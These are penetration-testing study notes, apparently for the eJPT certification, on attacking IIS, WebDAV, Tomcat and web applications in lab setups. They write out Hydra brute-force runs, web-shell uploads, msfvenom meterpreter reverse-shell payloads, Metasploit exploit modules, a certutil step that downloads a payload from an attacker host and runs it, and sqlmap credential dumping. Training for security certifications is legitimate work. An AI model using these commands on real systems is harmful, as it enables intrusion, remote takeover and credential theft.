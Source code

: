## HTTP IIS - p80

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Nmap scripts

Nmap banner enumeration
```
nmap 10.10.10.1 -p 80 -sV --script banner
```
Directory enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-enum
```
Header Enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-headers
```
HTTP Methods enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-methods --script-args http-method-path=/webdav/
```
WebDAV Enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-webdav-scan —script-args http-method-path=/webdav/
```
## WebDAV

This service used to facilitate the transfer of files between and within the site.

### Exploitation tools

* davtest
* cadaver

Hydra brute-force attack on the WEBDav login web page.
```
hydra -L userlist.txt - P passwordlist.txt 10.10.10.1 http-get /webdav/
```
DavTest is a utility used to determine which file extensions are supported by the service (upload and execution).
```
davtest -url http://10.10.10.1/webdav -auth bob:password_123321
```
Cadaver is a utility used to upload a web shell to the target site, allowing for remote code execution (RCE) and gaining access to a command-line interface (CLI).
```
cadaver http://10.10.10.1/webdav
put /usr/share/webshells/asp/webshell.asp
```

### WebDav Exploit

*Using Cadaver*

MSFVenom can be used to create a payload for Cadaver.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f asp > shell.asp
```
```
cadaver http://10.10.10.1/webdav
put /root/shell.asp
```

Metasploit can be used to accept the connection from the target machine.
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
run
```
Execute the shell script uploaded to the browser.

*Using Metasploit*
```
use exploit/windows/iis/iis_webdav_upload_asp
```
This process is identical to the one executed with the help of Cadaver.


### HFS Exploit
```
Rejetto Exploit using Metasploit
use exploit/windows/http/rejetto_hfs_exec
```
### METASPLOIT

Using the search function there are many modules to use.
* http_version - enumerate server version
* http_header - enumerate header
* robots.txt - enumerate robots.txt
* dir_scanner - brute-force directory
* brute_dirs - brute-force directory
* files_dir - brute-force files
* apache_userdir_enum - users enumeration
* http_login - brute-force credentials
* dir_scanner
* dir_listing
* http_put
* http/options


### Web App Vulnerability Scanning with WMAP

WMAP is a Metasploit plugin that automates the vulnerability scanning process by applying some modules that are already part of Metasploit.
```
load wmap
wmap_sites -h
wmap_sites -a 10.10.10.1 - add target site
wmap_targets -h
wmap_targets -l - retrieve lists of targets
wmap_targets -t http://10.10.10.1/ - set a target
wmap_run -h
wmap_run -t - lists modules used during the scan
wmap_run -e - executes scan
```

## HTTP Apache - p80

Apache Tomcat is usually used to host sites developed in Java e uses port TCP 8080.

### Exploiting a vulnerable Apache Tomcat web server

```
search type:exploit tomcat_jsp_upload_bypass
set payload java/jsp_shell_bind_tcp
```
Once we have a valid session, we can use MSFVenom to create a payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=1234 -f exe > meterpreter.exe
python -m SimpleHTTPServer 80
```
On the target machine we can download the payload and execute it. Remember to set a multi/handler in Metasploit to handle the reverse TCP shell.
```
certutil -urlcache -f http://10.10.10.2/meterpreter.exe meterpreter.exe
```


## Web Application Penetration Testing

### Method Enumeration
```
curl -X GET 10.10.10.1 - GET request emulation
curl -I 10.10.10.1 - header enumeration
curl -X OPTIONS 10.10.10.1 -v - methods enumeration
curl -X PUT 10.10.10.1 -v - PUT method enumeration
curl -X POST 10.10.101./login.php -d “name=john&password=password” -v
curl 10.10.10.1/uploads/ —upload-file hello.txt - use POST method to upload a file
curl -X DELETE 10.10.10.1/uploads/hello.txt - use DELETE method to delete a file
```

### GoBuster - directory enumeration
```
gobuster dir -u http://10.10.10.1 -w /usr/share/wordlists/dirb/common.txt - U username - P password
```

### Nikto - scanning web application
```
nikto -h http://10.10.10.1 - aggressive vulnerability enumeration
nikto -h http://192.158.197.3/index.php?page=arbitrary-file-inclusion.php --Tuning 5 --Display V -o nikto.html --Format htm - to print results in a HTML readable format
nikto -h http://10.10.10.10:8080/ -id user:password - directory enumeration with username and password
```

### SQLMap - SQL Injection
```
sqlmap -u “http://10.10.10.1/sqli_1.php?titlejoe&action=search” —cookie PHPSESSID=39olsnl8q20cdl0f6k5tfq4fh3; security_level=0” -p title
sqlmap -u “http://10.10.10.1/sqli_1.php?titlejoe&action=search” —cookie PHPSESSID=39olsnl8q20cdl0f6k5tfq4fh3; security_level=0” -p title —dbs - databases enumeration
sqlmap -u “http://10.10.10.1/sqli_1.php?titlejoe&action=search” —cookie PHPSESSID=39olsnl8q20cdl0f6k5tfq4fh3; security_level=0” -p title -D bWapp —tables - table enumeration
sqlmap -u “http://10.10.10.1/sqli_1.php?titlejoe&action=search” —cookie PHPSESSID=39olsnl8q20cdl0f6k5tfq4fh3; security_level=0” -p title -D bWapp -T user —columns - columns enumeration
sqlmap -u “http://10.10.10.1/sqli_1.php?titlejoe&action=search” —cookie PHPSESSID=39olsnl8q20cdl0f6k5tfq4fh3; security_level=0” -p title -D bWapp -T user -C admin, password, email  - values of the selected columns
```

### XSSer - XSS attack
```
xsser --url "http://192.23.148.3/htmli_get.php?firstname=XSS&lastname=joe&form=submit” —cookies=“security_level=0; PHPSESSID=vkfjeewirfhkvdkbogiaognaovn”
```
"XSS" must be inserted into the location to be tested.

This flag can be used to execute a specific script.
```
xsser --url "http://192.23.148.3/htmli_get.php?firstname=XSS&lastname=joe&form=submit” —cookies=“security_level=0; PHPSESSID=vkfjeewirfhkvdkbogiaognaovn” —Fp “<script>alert(1)</script>”
```


